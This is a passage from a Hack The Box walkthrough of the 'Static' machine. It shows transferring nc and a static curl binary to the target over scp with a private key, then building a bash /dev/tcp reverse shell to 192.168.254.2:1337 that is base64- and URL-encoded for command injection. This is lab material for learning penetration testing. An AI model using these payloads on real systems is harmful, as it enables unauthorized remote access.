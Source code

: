 We also need to take curl over with us, I used [this](https://github.com/moparisthebest/static-curl) one:

```sh
┌──(root💀kali)-[~/htb/static]
└─# wget https://github.com/moparisthebest/static-curl/releases/download/v7.79.1/curl-amd64
--2021-11-06 17:06:33--  https://github.com/moparisthebest/static-curl/releases/download/v7.79.1/curl-amd64
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://objects.githubusercontent.com/github-production-release-asset-2e65be
Resolving objects.githubusercontent.com (objects.githubusercontent.com)... 185.199.109.133, 185.199.108.133, 185.199.111.133, ...
Connecting to objects.githubusercontent.com (objects.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3451848 (3.3M) [application/octet-stream]
Saving to: ‘curl-amd64’
curl-amd64      100%[==========================================================>]   3.29M  19.5MB/s    in 0.2s    
2021-11-06 17:06:35 (19.5 MB/s) - ‘curl-amd64’ saved [3451848/3451848]
```

Now we need to copy them across to the web box:

```sh
┌──(root💀kali)-[~/htb/static]
└─# scp -P 2222 -i id_rsa nc  www-data@10.10.10.246:/tmp
nc                               100%  762KB   1.8MB/s   00:00
┌──(root💀kali)-[~/htb/static]
└─# scp -P 2222 -i id_rsa curl-amd64  www-data@10.10.10.246:/tmp
curl-amd64                       100% 3371KB   2.1MB/s   00:01
```

## Reverse Shell Payload

Finally we need to create our payload. We can take a pentestmonkey reverse shell from [here](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). Them we base64 and URL encode it:

```text
┌──(root💀kali)-[~/htb/static]
└─# echo -n "/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.254.2/1337 0>&1'" | base64
L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn
```

Put that base64 encoded string in to echo, decode then pass to bash to be able to safely execute on the box. Also URL encode it, let's use Python to do that:

```text
┌──(root💀kali)-[~/htb/static]
└─# python3 -c "import urllib.parse; print(urllib.parse.quote('/bin/bash -c \'echo -n L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA+JjEn | base64 -d | bash\''))" 
/bin/bash%20-c%20%27echo%20-n%20L2Jpbi9iYXNoIC1jICcvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4yNTQuMi8xMzM3IDA%2BJjEn%20%7C%20base64%20-d%20%7C%20bash%27
```
